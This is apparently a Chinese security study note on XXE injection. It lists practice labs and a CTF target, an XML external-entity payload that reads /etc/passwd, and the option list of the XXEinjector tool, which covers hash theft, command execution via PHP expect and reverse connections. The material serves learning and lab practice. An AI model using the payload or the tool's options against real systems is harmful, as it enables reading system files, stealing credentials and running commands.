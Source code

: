 <a name="kV7Vt"></a>
### 四、xxe绕过
```bash
https://www.cnblogs.com/20175211lyz/p/11413335.html
```
<a name="mMVW9"></a>
### 五、xxe靶场
<a name="t3eQQ"></a>
#### 1、xxe-lab
```bash
https://github.com/c0ny1/xxe-lab
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629972753042-b968f599-0070-46b7-a693-30e5ba6e239f.png#clientId=uc5789d7d-b19a-4&from=paste&height=438&id=u77cc9b42&originHeight=875&originWidth=1419&originalType=binary&ratio=1&size=90816&status=done&style=none&taskId=u0cd3ba08-da56-463b-ace4-ad9eb03ba86&width=709.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629973416531-8c0017d5-bb62-41e9-89e1-2e0075d1d200.png#clientId=uc5789d7d-b19a-4&from=paste&height=521&id=u1265966a&originHeight=1042&originWidth=1920&originalType=binary&ratio=1&size=203352&status=done&style=none&taskId=u52f2c276-a4fd-4c93-a9d7-2967948a635&width=960)<br />**备注**：不知道是啥子原因这个位置发送的数据包不是xml格式导致漏洞无法利用，在这里卡了很久，有知道解决办法再说吧
<a name="M9vNo"></a>
#### 2、CTF-Jarvis-OJ-Web-XXE
```bash
http://web.jarvisoj.com:9882/
更改请求数据格式:c

<?xml version= = "1.0"? >
<!DOCTYPE ANY [
	<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```
点击Go，抓包<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630037602208-8fd74727-7739-43db-a4a5-d89da3a0e3fd.png#clientId=ua35d0b78-62f8-4&from=paste&id=u4d777e2b&originHeight=369&originWidth=594&originalType=url&ratio=1&status=done&style=none&taskId=u9121b816-d435-45f2-ad19-07208640f0f)](https://gitee.com/darkerg/article-images/raw/master/typora/20210504114723.png)<br />数据传输形式是采用json数据格式来提交传输的。通过修改数据格式来攻击，形成XXE漏洞。<br />[![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1630037602198-aa8e9466-3745-410a-ac9c-97a4792314d9.png#clientId=ua35d0b78-62f8-4&from=paste&id=ueaca442b&originHeight=393&originWidth=666&originalType=url&ratio=1&status=done&style=none&taskId=uc50f003c-abee-4d99-a726-4659ada84ed)](https://gitee.com/darkerg/article-images/raw/master/typora/20210504114855.png)
<a name="YHHdU"></a>
### 六、xxe工具
XXEinjector本身提供了非常非常丰富的操作选项，所以大家在利用XXEinjector进行渗透测试之前，请自习了解这些配置选项，以最大限度地发挥XXEinjector的功能。当然了，由于XXEinjector是基于Ruby开发的，所以Ruby运行环境就是必须的了。这里建议在kali环境下运行。
<a name="CU4jE"></a>
#### 1、获取地址
```bash
这里也给出github地址：https://github.com/enjoiz/XXEinjector
https://github.com/enjoiz/XXEinjector/archive/master.zip
```
<a name="jWoEZ"></a>
#### 2、参数说明
```bash
--host     			必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      		必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        	记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    	在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     		使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      		XSLT注入测试。
--ssl              使用SSL。
```